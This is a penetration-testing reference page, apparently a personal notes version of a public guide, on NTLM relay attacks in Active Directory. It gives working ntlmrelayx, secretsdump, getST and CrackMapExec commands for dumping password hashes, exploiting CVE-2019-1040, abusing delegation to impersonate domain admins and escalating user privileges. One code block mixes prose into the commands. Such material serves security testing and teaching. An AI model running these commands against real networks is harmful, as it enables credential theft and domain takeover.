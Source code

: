 # NTLM Relay
MITRE ATT&CK™ Sub-technique T1557.001

After successfully forcing a victim to authenticate \(NTLM authentication\) to an attack server, the attacker can try to relay that authentication to targets of his choosing. Depending on the mitigations in place, he will be able to move laterally and escalate privileges within an Active Directory domain.

![NTLM Relay](ntlmrelay2.png)

The NTLM authentication messages are embedded in the packets of application protocols such as SMB, HTTP, MSSQL, SMTP, IMAP. The way NTLM authentication is conducted is kind of protocol-independent. It means one can relay NTLM authentication messages over a certain protocol, say HTTP, over another, say SMB. That is called **cross-protocols NTLM relay**. It also means the relays and attacks possible depend on the application protocol the NTLM authentication is embedded in.

[ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) , [MultiRelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py) and [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) are great tools for relaying NTLM authentications. Those tools setup relay clients and relay servers waiting for incoming authentications. Once the servers are up and ready, the tester can initiate a forced authentication attack.

When combining NTLM relay with [[Responder]] for name poisoning, testers need to make sure that Responder's servers are deactivated, otherwise they will interfere with ntlmrelayx ones.

```text
sed -i 's/SMB = On/SMB = Off/g' /PATH/TO/Responder/Responder.conf
sed -i 's/HTTP = On/HTTP = Off/g' /PATH/TO/Responder/Responder.conf
```

The following command will try to relay the authentication over SMB and attempt to dump the hashes from the remote target’s SAM if the relayed victim has the right privileges.
```bash
ntlmrelayx.py -t smb://$TARGET
```

The following command will try to relay the authentication over SMB and open a SOCKS proxy.
```bash
ntlmrelayx.py -tf targets.txt -socks
```

The attacker will be able to use secretsdump along with proxychains to dump hashes from the remote target's SAM, SYSTEM and SECURITY.
```bash
proxychains secretsdump.py -no-pass $DOMAIN/$USER@$TARGET
```

The following command will try to relay the authentication over LDAPS, attempt to exploit CVE-2019-1040 \(a.k.a. Drop the MIC\) to "unsign" the NTLM messages \(`--remove-mic`\), abuse the default value \(10\) of `ms-DS-MachineAccountQuota` to create a domain machine account \(`--add-machine`\) and finally, abuse Resource Based Kerberos Constrained Delegations \(RBCD\) to gain admin access to the relayed machine \(`--delegate-access`\).
```bash
ntlmrelayx.py -t ldaps://$DC_TARGET -smb2support --remove-mic --add-computer SHUTDOWN --delegate-access
```

If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account \(e.g. the domain admin\) on it.
```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```

This technique is usually combined with a PushSubscription abuse (a.k.a. PrivExchange) to force an Exchange server to initiate an authentication, relay it to a domain controller and abuse the default high privileges of Exchange servers in AD domains (`WriteDACL` over domain object, see Abusing ACLs to escalate a domain user privileges \(`--escalate-user`\).

The following command will try to relay the authentication over LDAPS and escalate the privileges of a domain user by adding it to a privileged group \(`--escalate-user`\).
```bash
ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --escalate-user SHUTDOWN
```
### Tools features
This tool offers many features making it a very valuable asset when pentesting an Active Directory domain:

* It can be combined with mitm6 \(for [IPv6 + name poisoning](../forced-authentications/#ipv6-dns-poisoning)\) be enabling IPv6 support with the `-6` option.
* It has the ability to open SOCKS proxies for every new session after a successful relayed authentication. This allows testers to exploit those sessions later on with tools like [proxychains](https://github.com/haad/proxychains). This feature can be enabled with the `-socks` option.
* It supports SMB2. It can be enabled with the `-smb2support` option.
* It has the ability to relay a single connection \(SMB only for now\) to multiple targets.
* It implements CVE-2019-1040 with the `--remove-mic` option, usually needed when attempting "unsigning cross-protocols NTLM relay attacks" \(SMB to LDAP/S\).
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`.
* It has the ability to relay connections for specific target users.

In theory, thanks to [the recent "multi-relay" feature](https://www.secureauth.com/blog/what-old-new-again-relay-attack), another attacker can be added to the targets to combine ntlmrelayx with Responder servers and capture a NTLM hash with a custom challenge while relaying

The targets file used with the `-tf` option can contain the following
```bash
# User filter for SMB only (for now)
smb://DOMAIN\User@192.168.1.101
smb://User@192.168.1.101

# Domain name can be used instead of the IP address
ldaps://someserver.domain.lan
someserver.domain.lan
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) has the ability to generate the list of possible targets for relay to SMB \(hosts with SMB signing disabled\).
```bash
crackmapexec smb --gen-relay-list targets.txt $SUBNET
```

## SMB Relay

SMB Signing must be disabled or not enforced on targets. Relayed user credentials must be admin on the machine for any real value.

```bash
nmap --script-smb2-security-mode.nse -p445 10.13.37.20

Turn SMB & HTTP in responder off.

sudo responder -I eth0 -dwP

sudo ntlmrelayx.py -t target -smb2support
sudo ntlmrelayx.py -tf targets -smb2support

Once your machine is access over SMB the below screenshots will occur.

# -i adds interactive mode
# -c issues remote commands
```

![[smbrelay.png]]

Interactive mode launches a bind on :11000
![[smbrelayinteractive.png]]


References:
https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay